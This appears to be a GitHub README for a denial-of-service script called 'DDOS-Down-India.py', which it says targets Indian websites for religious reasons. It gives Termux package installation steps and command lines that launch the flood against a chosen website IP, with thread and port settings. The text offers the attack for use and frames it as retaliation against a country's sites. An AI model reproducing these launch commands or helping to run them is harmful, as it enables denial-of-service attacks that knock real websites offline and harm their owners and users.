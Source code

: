 # DDOS
Our Target Indian Site For Respect Our Prophet Nabi Karim Sallallahu Alaihi Wasallam

#Run Or Install DDOS

```
termux-setup-storage
pkg update
pkg upgrade
pkg install git
apt install git
pkg install python
pkg install python2
pkg install python3
apt install dnsutils
python3 -m pip install --upgrade
pkg install pip2
pip2 install requests
pip2 install mechanize
python DDOS-Down-India.py -s (IP) -t 135 -p 80
python3 DDOS-Down-India.py -s (IP) -t 135 -p 80
```
#(IP) = Remove () Or Enter Website IP

# Termux Setup Copy All Or Paste
```
termux-setup-storage
pkg update
pkg upgrade
pkg install git
apt install git
pkg install python
pkg install python2
pkg install python3
python3 -m pip install --upgrade
pkg install pip
pkg install pip2
pip2 install requests
pip2 install mechanize
pkg install ruby
gem install lolcat
pkg install lolcat
pip install lolcat
pip2 install lolcat
pip install bs4
pip install futures
pip2 install mechanize bs4 lolcat
```
